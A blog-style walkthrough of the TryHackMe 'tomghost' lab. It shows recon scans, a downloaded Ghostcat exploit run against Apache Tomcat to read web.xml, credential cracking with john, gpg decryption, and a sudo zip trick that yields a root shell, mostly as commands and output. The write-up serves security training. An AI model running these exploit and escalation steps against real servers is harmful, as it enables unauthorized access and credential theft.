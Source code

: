 ```yaml
---

title: Walkthrough - tomghost
published: true
---
```


Identify recent vulnerabilities to try exploit the system or read files that you should not have access to.

[https://tryhackme.com/room/tomghost](https://tryhackme.com/room/tomghost)

* * *

## Path to Machine

- ``nmap -T4 -p- 10.10.124.33 -vvv``

```shell
22/tcp   open  ssh
53/tcp   open  tcpwrapped syn-ack ttl 61
8080/tcp open  http       syn-ack ttl 61 Apache Tomcat 9.0.30
|_http-favicon: Apache Tomcat
```

- Port 8080 has an apache tomcat container
- ``gobuster dir -u http://10.10.124.33:8080/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -t 100 -x txt,php,html --no-error``
- ``locate 49716``
- lets check out the pdf and learn about the exploit

## Ghostcat Exploitation

- ``wget https://raw.githubusercontent.com/00theway/Ghostcat-CNVD-2020-10487/master/ajpShooter.py``
- this will read the XML file containing a users's ssh key
- ``python3 ajpShooter.py http://10.10.35.112:8080 8009 /WEB-INF/web.xml read``

![0xskar](/assets/tomghost01.png)

- skyfuck:8730281lkjlkjdqlksalks

- ``scp skyfuck@10.10.35.112:/home/skyfuck/* .`` to get the gpg file so we can use gpg2john to create a hash from the asc file.
- ``john --wordlist=/usr/share/seclists/Passwords/rockyou.txt hash`` = ``alexandru        (tryhackme)``

Now that we have the passphrase to decrtypt the gpg file, we can import the gpg key and then decrypt it.

```shell
┌──(0xskar㉿cocokali)-[~/Documents/TryHackMe/tomghost]
└─$ gpg --import ./tryhackme.asc                                                     
gpg: key 8F3DA3DEC6707170: public key "tryhackme <stuxnet@tryhackme.com>" imported
gpg: key 8F3DA3DEC6707170: secret key imported
gpg: key 8F3DA3DEC6707170: "tryhackme <stuxnet@tryhackme.com>" not changed
gpg: Total number processed: 2
gpg:               imported: 1
gpg:              unchanged: 1
gpg:       secret keys read: 1
gpg:   secret keys imported: 1
```

and then...

```shell
┌──(0xskar㉿cocokali)-[~/Documents/TryHackMe/tomghost]
└─$ gpg --decrypt credential.pgp 
gpg: WARNING: cipher algorithm CAST5 not found in recipient preferences
gpg: encrypted with 1024-bit ELG key, ID 61E104A66184FBCC, created 2020-03-11
      "tryhackme <stuxnet@tryhackme.com>"
merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j  
```

Now we have the second user name and user credentials so we can ssh to login and then escalate to become root.


```shell
merlin@ubuntu:/tmp$ sudo -l
Matching Defaults entries for merlin on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip
```

So we can run this to get root:

```shell
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
sudo rm $TF
```

* * * 

## User.txt

- ``cat /home/merlin/user.txt``

* * * 

## Root.txt

- ``cat /root/root.txt``

* * * 